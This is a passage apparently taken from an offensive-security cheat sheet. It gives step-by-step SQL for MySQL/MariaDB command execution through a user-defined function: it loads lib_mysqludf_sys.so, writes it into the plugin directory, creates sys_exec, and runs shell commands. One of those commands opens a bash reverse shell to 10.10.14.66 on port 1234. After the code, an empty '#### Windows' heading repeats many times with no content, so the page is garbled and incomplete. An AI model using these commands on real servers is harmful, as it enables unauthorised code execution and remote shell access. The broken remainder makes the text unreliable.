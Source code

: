 #### Linux
```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```
#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows
